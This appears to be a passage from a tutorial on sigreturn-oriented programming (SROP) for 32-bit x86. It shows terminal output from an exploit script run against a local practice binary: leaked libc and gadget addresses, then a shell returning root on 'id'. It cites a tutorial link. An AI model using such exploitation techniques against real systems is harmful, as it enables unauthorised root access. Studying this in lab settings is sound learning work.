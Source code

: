 ```
root@bs-virtual-machine:~/pwnable# python exploit.py 
[*] '/root/pwnable/srop32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/root/pwnable/srop32': pid 10887
The base address of Libc    : 0xf7d8a000
Address of syscall gadget   : 0xf7f60006
Address of string "/bin/sh" : 0xf7ee302b
Address of sigreturn()      : 0xf7f60001
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**References**  
<https://www.lazenca.net/display/TEC/01.SROP%28Sigreturn-oriented+programming%29+-+x86>